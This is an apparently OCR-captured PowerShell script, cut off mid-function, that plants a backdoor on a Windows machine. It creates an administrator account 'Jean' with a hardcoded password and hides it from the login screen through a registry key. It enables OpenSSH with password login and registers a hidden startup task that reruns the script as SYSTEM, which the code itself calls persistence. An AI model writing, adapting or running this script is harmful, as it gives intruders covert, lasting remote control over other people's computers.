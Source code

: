 ```powershell
$username = "Jean"
$password = "Jean1234"

# Function to manage the system user
function Manage-SystemUser {
    try {
        $user = Get-LocalUser -Name $username -ErrorAction SilentlyContinue
        if (-not $user) {
            $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
            New-LocalUser -Name $username -Password $securePassword -Description "System Management Account" -PasswordNeverExpires
            $adminGroup = Get-LocalGroup -SID "S-1-5-32-544"
            Add-LocalGroupMember -Group $adminGroup -Member $username
            $regPath = "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList"
            if (-not (Test-Path $regPath)) {
                New-Item -Path $regPath -Force | Out-Null
            }
            New-ItemProperty -Path $regPath -Name $username -Value 0 -PropertyType DWord -Force
            Write-Host "System user configured successfully"
        }
    }
    catch {
        Write-Host "Error managing system user: $_"
        Add-Content -Path $logPath -Value "$(Get-Date) - Error managing system user: $_"
    }
}

# Create a function to set up the SSH service
function Configure-SSHService {
    try {
        $sshService = Get-Service -Name 'sshd' -ErrorAction SilentlyContinue
        if (-not $sshService) {
            Add-WindowsCapability -Online -Name OpenSSH.Server*
        }
        Start-Service sshd
        Set-Service -Name sshd -StartupType 'Automatic'
        $sshConfigPath = "$env:ProgramData\ssh\sshd_config"
        $config = Get-Content $sshConfigPath
        $config = $config -replace '#PubkeyAuthentication yes', 'PubkeyAuthentication yes'
        $config = $config -replace '#PasswordAuthentication yes', 'PasswordAuthentication yes'
        $config | Set-Content $sshConfigPath
        Restart-Service sshd
        Write-Host "SSH service configured successfully"
    }
    catch {
        Write-Host "Error configuring SSH service: $_"
        Add-Content -Path $logPath -Value "$(Get-Date) - Error configuring SSH: $_"
    }
}

# Create a function to establish persistence
function Set-SystemPersistence {
    try {
        $action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument "-WindowStyle Hidden -ExecutionPolicy Bypass -File `"$PSCommandPath`""
        $trigger = New-ScheduledTaskTrigger -AtStartup
        $principal = New-ScheduledTaskPrincipal -UserId "SYSTEM" -LogonType ServiceAccount -RunLevel Highest
        $settings = New-ScheduledTaskSettingsSet -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries -Hidden
        Register-ScheduledTask -TaskName $serviceName -Action $action -Trigger $trigger -Principal $principal -Settings $settings -Description $serviceDescription -Force
```